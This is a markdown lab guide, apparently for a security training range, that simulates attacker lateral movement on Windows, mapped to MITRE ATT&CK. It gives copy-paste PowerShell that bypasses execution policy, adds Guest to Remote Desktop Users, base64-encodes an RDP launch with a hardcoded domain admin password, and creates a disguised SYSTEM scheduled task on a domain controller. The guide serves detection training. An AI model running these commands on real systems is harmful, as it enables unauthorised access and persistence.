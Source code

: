 ```yaml
---
title: ATT&CK - Lateral Movement Phase
description: Simulate lateral movement techniques used by attackers within a network
author: Chris Gerritz, Datto
created: 04/07/2025
achievements:
duration: 15
---
```


## Description

The purpose of this lab is to simulate lateral movement techniques used by attackers to pivot between systems within a network. You will use PowerShell commands to create RDP connections and remote scheduled tasks on a target system. This lab emphasizes understanding how attackers move laterally and how these activities can be monitored or mitigated.

---

## Objectives
1. Understand the Lateral Movement phase of an attack.
2. Demonstrate techniques to establish remote connections and execute tasks on remote systems.
3. Evaluate the outputs and implications of lateral movement activities.

---

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows                     |
| **Applications** | PowerShell                  |
| **Needed Files** | None                        |

---

## Preparation Instructions

1. Open **PowerShell** as an administrator:
   - Right-click PowerShell.
   - Select "Run as Administrator."
2. Prepare the environment by running the following:
   ```PowerShell
   # Define a random delay number (used to randomize operations)
   $n = 1000 + $(Get-Random -Max 999)
   # Bypass signed script controls
   Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass
   ```

---

## Instructions

### 1. Add Guest to Remote Desktop Users Group
> *This step simulates an attacker adding a Guest user to the Remote Desktop Users group to enable remote access.*

- MITRE ATT&CK Technique: [T1021.001 - Remote Services: Remote Desktop Protocol (RDP)](https://attack.mitre.org/techniques/T1021/001)
- Copy and paste the following PowerShell commands into the terminal:
   ```PowerShell
   Write-Host -ForegroundColor Cyan "Initiating Lateral Movement - Adding Guest to Remote Desktop Users Group"
   net localgroup "Remote Desktop Users" Guest /add
   Write-Host -ForegroundColor Green "Guest successfully added to Remote Desktop Users group."
   ```

---

### 2. Establish Remote RDP Connection
> *This step simulates an attacker using stolen credentials to establish an RDP session with a target machine.*

- MITRE ATT&CK Technique: [T1021.001 - Remote Services: Remote Desktop Protocol (RDP)](https://attack.mitre.org/techniques/T1021/001)
- Copy and paste the following PowerShell commands into the terminal:
   ```PowerShell
   $cmd = @'
   cmdkey /generic:TERMSRV/CORP-DC01 /user:corp.local\adminuser /pass:P@ssw0rd123
   mstsc /v:CORP-DC01
   echo "RDP connection initiating......"
   '@

   $cmd += "`nStart-Sleep -Milliseconds $n"
   $bytes = [System.Text.Encoding]::Unicode.GetBytes($cmd)
   $encoded = [Convert]::ToBase64String($bytes)

   powershell.exe -NoProfile -EncodedCommand $encoded

   ```

---

### 3. Create a Remote Scheduled Task
> *Simulates an attacker creating a scheduled task on a remote machine to execute malicious code.*

- MITRE ATT&CK Technique: [T1053.005 - Scheduled Task: Scheduled Task/Job](https://attack.mitre.org/techniques/T1053/005)
- Copy and paste the following PowerShell commands into the terminal:
   ```PowerShell
   Write-Host "Simulating Scheduled Task Creation on remote machine CORP-DC01..."
   Start-Sleep -Seconds 3

   & Powershell -NoProfile -NoLogo -ExecutionPolicy Bypass -command {
       cmd.exe  /c SCHTASKS  /s CORP-DC01 /RU "SYSTEM" /create /tn "WindowsUpdate0" /tr "rundll32 C:\ProgramData\good.dll,good" /sc ONCE /sd 01/01/1910 /st 00:00
   }
   ```



---
